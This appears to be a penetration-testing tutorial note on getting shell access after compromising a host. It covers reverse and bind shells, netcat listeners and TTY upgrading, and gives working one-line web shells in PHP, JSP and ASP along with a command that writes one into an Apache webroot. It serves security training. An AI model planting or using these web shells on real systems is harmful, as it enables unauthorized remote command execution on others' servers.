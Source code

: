 # Payload all the things repo
https://github.com/swisskyrepo/PayloadsAllTheThings

Once we compromise a system and exploit a vulnerability to execute commands on the compromised hosts remotely, we usually need a method of communicating with the system not to have to keep exploiting the same vulnerability to execute each command. To enumerate the system or take further control over it or within its network, we need a reliable connection that gives us direct access to the system's shell, i.e., Bash or PowerShell, so we can thoroughly investigate the remote system for our next move.

One way to connect to a compromised system is through network protocols, like SSH for Linux or WinRM for Windows, which would allow us a remote login to the compromised system. However, unless we obtain a working set of login credentials, we would not be able to utilize these methods without executing commands on the remote system first, to gain access to these services in the first place.

- Reverse Shell: Connects back to our system and gives us control through a reverse connection;
- Bind Shell: Waits for us to connect to it and gives us control once we do;
- Web Shell: Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.

# Reverse shell

A Reverse Shell is the most common type of shell, as it is the quickest and easiest method to obtain control over a compromised host. Once we identify a vulnerability on the remote host that allows remote code execution, we can start a netcat listener on our machine that listens on a specific port, say port 1234. With this listener in place, we can execute a reverse shell command that connects the remote systems shell, i.e., Bash or PowerShell to our netcat listener, which gives us a reverse connection over the remote system.

`nc -lvnp 1234`

- -l: Listen mode, to wait for a connection to connect to us;
- -v: Verbose mode, so that we know when we receive a connection;
- -n: Disable DNS resolution and only connect from/to IPs, to speed up the connection;
- -p 1234: Port number netcat is listening on, and the reverse connection should be sent to.

# Bind shell

Another type of shell is a Bind Shell. Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port.
Once we execute a Bind Shell Command, it will start listening on a port on the remote host and bind that host's shell, i.e., Bash or PowerShell'to that port. We have to connect to that port with netcat, and we will get control through a shell on that system.

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

# Upgrading TTY

Once we connect to a shell through Netcat, we will notice that we can only type commands or backspace, but we cannot move the text cursor left or right to edit our commands, nor can we go up and down to access the command history. To be able to do that, we will need to upgrade our TTY. This can be achieved by mapping our terminal TTY with the remote TTY.

There are multiple methods to do this. For our purposes, we will use the python/stty method. In our netcat shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:

`python -c 'import pty; pty.spawn("/bin/bash")'`

After we run this command, we will hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:

- `stty raw -echo`
- `fg`
- export SHELL=bash
- export TERM=xterm-256color

Once we hit fg, it will bring back our netcat shell to the foreground. At this point, the terminal will show a blank line. We can hit enter again to get back to our shell or input reset and hit enter to bring it back. At this point, we would have a fully working TTY shell with command history and everything else.

We may notice that our shell does not cover the entire terminal. To fix this, we need to figure out a few variables. We can open another terminal window on our system, maximize the windows or use any size we want, and then input the following commands to get our variables:

`echo $TERM`
`stty size`

The first command showed us the TERM variable, and the second shows us the values for rows and columns, respectively. Now that we have our variables, we can go back to our netcat shell and use the following command to correct them:

`export TERM=xterm-256color`
`stty rows 67 columns 318`

# Web shell

The final type of shell we have is a Web Shell. A Web Shell is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.

First of all, we need to write our web shell that would take our command through a GET request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:

- PHP: `<?php system($_REQUEST["cmd"]); ?>`
- jsp: `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
- asp: `<% eval request("cmd") %>`

Once we have our web shell, we need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser. This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. shell.php and upload it, and then access our uploaded file to execute commands.

However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. So, the first step is to identify where the webroot is. The following are the default webroots for common web servers:

- Apache: /var/www/html/
- Nginx: /usr/local/nginx/html/
- IIS: c:\inetpub\wwwroot\
- XAMPP: C:\xampp\htdocs\

We can check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:

`echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`

Once we write our web shell, we can either access it through a browser or by using cURL.
